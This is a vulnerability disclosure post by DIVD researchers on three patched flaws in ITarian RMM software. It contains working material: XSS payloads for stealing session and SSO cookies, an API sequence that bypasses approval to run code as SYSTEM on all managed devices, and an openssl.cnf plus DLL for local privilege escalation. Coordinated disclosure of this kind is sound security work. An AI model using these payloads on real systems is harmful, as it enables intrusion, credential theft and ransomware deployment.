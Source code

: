 ```yaml
---
layout: post
title: Itarian Full disclosure
author: Hidde Smit
researchers: 
    - Wietse Boonstra
    - Hidde Smit
excerpt: "Full disclosure of vulnerabilities discovered in Itarian products"
---
```

DIVD researchers, Hidde Smit and Wietse Boonstra, have discovered multiple vulnerabilities. Vulnerabilities in the following products have been found:
- ITarian SaaS platform
- ITarian on-premise (version 6.35.37347.20040)
- Endpoint Manager Communication Client (version 6.43.41148.21120)

ITarian is a Remote Monitoring and Management (RMM) software suite. It allows administrators to manage endpoints. Because of this powerful position within an organisation, RMM suites are often targeted by malicious actors.

Making initial contact with ITarian proved to be difficult. The vulnerabilities were discovered in December 2021. However, contact and subsequent fixes only started rolling out in May 2022.

DIVD has recently become an CVE Numbering Authority (CNA) and has used these rights to create the following CVE’s assigned to the vulnerabilities included in the write-up below:
- CVE-2022-25151
- CVE-2022-25152
- CVE-2022-25153

The rest of this post contains the full technical write-up of the vulnerabilities. These vulnerabilities have been patched and no longer work on the latest version of ITarian software.

## Cross-Site Scripting in ITarian SaaS Service Desk module (ITarian SaaS platform)

- Case: {% divd DIVD-2021-00037 %}
- Discoverd by: Wietse Boonstra and Hidde Smit
- Credits: Discovered by [Wietse Boonstra](https://www.divd.nl/team/Wietse%20Boonstra/) and [Hidde Smit](https://www.divd.nl/team/Hidde%20Smit/)
- Products: ITarian SaaS platform
- Reference: [Case DIVD-2021-00037](https://csirt.divd.nl/cases/DIVD-2021-00037/)

In order to exploit this Cross-Site Scripting (XSS) vulnerability, the victim needs to enable the Service Desk module, which is not enabled by default. The vulnerability can be exploited by visiting the victim's Support Ticket System page as shown in the screenshot below.


![Screenshot of XSS payload in a support ticket](/img/DIVD-2021-00037/CVE-2022-25151-01.png)

There are two XSS vulnerabilities. One is present in the Email Address field and the other in the Full Name field.

The payload for Email Address is: `"<script>alert(document.cookie)</script>"@something.somewhere`

The payload for Full Name is: `<script>alert(document.cookie)</script>`

The Email Address payload triggers once an ITarian MSP user has opened the ticket contents as shown in the screenshot below, the ticket might also trigger if the user hovers over the ticket to preview the content.

![Screenshot of XSS triggered in service desk module](/img/DIVD-2021-00037/CVE-2022-25151-02.png)

Using this exploit technique, it is possible to steal the `OSTSESSID` cookie and gain access to the ticketing system of the victim by visiting the direct URL, in this case: `https://{CUSTOMER_URL}.servicedesk.comodo.com/scp/tickets.php`

The cookie `token` can also be stolen, which is actually a SSO-token granting full access to the MSP dashboard without any credentials needed. This can be done by stealing the `token` cookie through XSS as demonstrated above and placing it in the MSP URL as shown below:
`https://{CUSTOMER_URL}.cmdm.comodo.com/?sso-token={token}`


## Session cookie not protected by HttpOnly flag (ITarian SaaS platform / on-premise) - CVE-2022-25151

- CVE: {% cve CVE-2022-25151 %}
- Case: {% divd DIVD-2021-00037 %}
- Discoverd by: Wietse Boonstra and Hidde Smit
- Credits: Discovered by [Wietse Boonstra](https://www.divd.nl/team/Wietse%20Boonstra/) and [Hidde Smit](https://www.divd.nl/team/Hidde%20Smit/)
- Products: ITarian SaaS platform and Itarian on-premise
- CVSS: 7.5
- Reference: Case {% divd DIVD-2021-00037 %}, {% cve CVE-2022-25151 %}
- Solution: Itarian on-premise is no longer maintained. Please avoid using Itarian on-premise.

Being able to steal cookies exploiting XSS, is caused by the lack of HttpOnly. Both on-premise and SaaS platforms do not implement the HttpOnly flag on session cookies. Setting HttpOnly stops JavaScript from being able to access the cookie and as such mitigates XSS attacks which are trying to steal session cookies, as demonstrated with the XSS vulnerability.

## Creation of procedure and bypass approval (ITarian SaaS platform / on-premise) - CVE-2022-25152

- CVE: {% cve CVE-2022-25152 %}
- Case: {% divd DIVD-2021-00037 %}
- Discoverd by: Wietse Boonstra and Hidde Smit
- Credits: Discovered by [Wietse Boonstra](https://www.divd.nl/team/Wietse%20Boonstra/) and [Hidde Smit](https://www.divd.nl/team/Hidde%20Smit/)
- Products: ITarian SaaS platform and Itarian on-premise
- CVSS: 9.9
- Reference: Case {% divd DIVD-2021-00037 %}, {% cve CVE-2022-25152 %}
- Solution: Itarian on-premise is no longer maintained. Please avoid using Itarian on-premise.

If a malicious actor gains access to the Token session cookie, he can create a procedure, bypass approval and run the procedure. Resulting in all agents running arbitrary code as SYSTEM, which could for example be used during ransomware deployment. 

The Token session cookie can be retrieved by abusing the XSS vulnerability in the Service Desk module.

Creating and bypassing approval consists of multiple steps. The vulnerability is easily exploited by calling the following three API endpoints in the following order:
1. /procedure/windows/create
2. /procedure/windows/update/id/<id>
3. /procedure/run/device-all

The first API call is used to create a procedure, the second is used to add arbitrary Python code and the last API call bypasses approval and pushes the procedure to all devices. These three steps have been automated in a Python POC which can be found [here](https://github.com/DIVD-NL/Itarian-2021-00037/blob/main/POC/CVE-2022-25152-POC.py)

## Endpoint Manager agent local privilege escalation (Endpoint Manager Communication Client) - CVE-2022-25153

- CVE: {% cve CVE-2022-25153 %}
- Case: {% divd DIVD-2021-00037 %}
- Discoverd by: Wietse Boonstra and Hidde Smit
- Credits: Discovered by [Wietse Boonstra](https://www.divd.nl/team/Wietse%20Boonstra/) and [Hidde Smit](https://www.divd.nl/team/Hidde%20Smit/)
- Products: ITarian SaaS platform and Itarian on-premise
- CVSS: 7.8
- Reference: Case {% divd DIVD-2021-00037 %}, {% cve CVE-2022-25153 %}
- Solution: Make sure Endpoint Manager agent is the latest version, if not download and install the latest agent.

If a malicious actor gains low privilege access to a system where ITarian Endpoint Manager Communication Client has been installed, he will be able to escalate his privileges to SYSTEM. Gaining full access over the system by exploiting the ITarian client.

Systems that have an ITarian client installed run their processes under SYSTEM rights, as shown in the screenshot below.

![Services running as SYSTEM](/img/DIVD-2021-00037/CVE-2022-25153-01.png)

`RmmService.exe` and `ITSMService.exe` do an `openssl.cnf` lookup in a folder which does not exist. A malicious user on a system with ITarian agent installed can escalate his privileges from user to SYSTEM by crafting a malicious `openssl.cnf` in the folder shown in the screenshot.

![Openssl.cnf lookup](/img/DIVD-2021-00037/CVE-2022-25153-02.png)

The steps below demonstrate running privileged commands.

Create the folder: `C:\Work\vcpkg\packages\openssl-windows_x86-windows-static-md`

Create an `opsenssl.cnf` in the newly created folder with the following content:

```
openssl_conf = openssl_init
[openssl_init]
engines = engine_section
[engine_section]
cmd = cmd_section
[cmd_section]
engine_id = cmd
dynamic_path = c:\\Work\\vcpkg\\packages\\openssl-windows_x86-windows-static-md\\whoami.dll
init = 0
```

Compile a `whoami.dll` with the following content:

```
#include "pch.h"
#include <stdlib.h>
#include <windows.h>
  
BOOL WINAPI DllMain(HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("C:\\windows\\SysWOW64\\cmd.exe /c whoami > C:\\windows\\tasks\\whoami.txt");
        ExitProcess(0);
    }
    return TRUE;
}
```

Place both `whoami.dll` and `openssl.conf` in the folder. Restart the system or wait for the `openssl.cnf` lookup to trigger. After triggering a `whoami.txt` will be placed in `C:\windows\tasks`

![Remote code execution as SYSTEM](/img/DIVD-2021-00037/CVE-2022-25153-03.png)

This can of course, be any arbitrary code, for example, a reverse shell with SYSTEM rights.
